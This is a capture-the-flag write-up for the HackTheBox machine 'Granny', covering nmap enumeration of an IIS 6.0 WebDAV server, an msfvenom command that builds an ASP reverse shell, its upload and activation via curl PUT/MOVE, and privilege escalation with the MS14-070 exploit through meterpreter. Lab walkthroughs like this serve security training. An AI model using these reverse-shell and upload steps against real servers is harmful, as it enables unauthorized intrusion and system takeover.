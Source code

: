 ```yaml
---
layout: single
title:  "HackTheBox: Granny - Writeup"
date:   2019-04-20 12:00:02 +0530
author: Kyle Simmons
categories: [htb]
---
```

HackTheBox: Granny was another easy machine to get into, Privilege escalation was problematic but it was a
good lesson on how to deal with broken exploits.

<h2>1.1 Enumeration</h2>
I first started by doing a port scan of Granny.
{% highlight shell %}
nmap -sC -sV -A -oA granny-scan 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.035s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Error
| http-webdav-scan:
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unkown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP SP2 or Windows Server 2003 SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   41.97 ms 10.10.14.1
2   42.07 ms 10.10.10.15
{% endhighlight %}
<br>
Visting the website and running dirb revealed that the website is full of inital configuration
files as it appears that the website has not been setup yet or misconfigured. However, the port scan
revealed that http webdav methods can used. A good way to test for this is with `davtest`.
<br>

<img src="/assets/images/htb/granny/davtest.png">
<br>
After looking around online i found a good sources online to use curl for method requests:
<br>
[Webdav curl examples link]

<h2>2.1 Exploitation</h2>
Firstly a shell needs to be generated to upload to the web server. Since the server is running
asp as found in enumeration, an asp shell can be generated through msfvenom.

`msfvenom -p windows/shell_reverse_tcp LHOST=IP_ADDRESS LPORT=PORT -f asp > rshell.asp`
<img src="/assets/images/htb/granny/msfvenom-rshell.png">

Curl is used for sending the reverse shell as a .txt file. Then the MOVE method is used
to change the file extension to `.asp`.

<img src="/assets/images/htb/granny/curl-shell.png">

The shell is initialised with `'curl http://10.10.10.15/rshell.asp'` and a shell appears in the
netcat listener.

<img src="/assets/images/htb/granny/reverse-shell-done.png">

<h2>3.1 Post exploitation</h2>

A `whoami /all` reveals that i do not have a privileged shell, this will require further post enumeration to
get a privileged shell.

<img src="/assets/images/htb/granny/all-users.png">

A `sysinfo` shows that the machine is an old version of windows running `Windows server 2003 SP2`.

<img src="/assets/images/htb/granny/sysinfo.png">

After some research, several local exploits have been found at:

[Local windows exploits link]

The MS14-070 exploit appeared to be what i was looking for. The exploit was put onto the target
machine the same way as the reverse shell. When executing the exploit there was a problem with the
exploit not working properly. The process was running but it was stuck.

<img src="/assets/images/htb/granny/escalted-priv.png">

To solve this, metasploit is used to convert the shell to meterpreter and migrate the process.

Convert shell to meterpreter:
<img src="/assets/images/htb/granny/migrate-to-meterpreter.png">

Execute the exploit in metasploit:
<img src="/assets/images/htb/granny/priv-esc-exploited.png">

`session 3` has been opened and when opening it is a privileged meterpreter shell. The root.txt is found in the
desktop of the Administrator account, and success!

<img src="/assets/images/htb/granny/found-root.png">









[Local windows exploits link]: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-070
[Webdav curl examples link]: https://code.blogs.iiidefix.net/posts/webdav-with-curl/

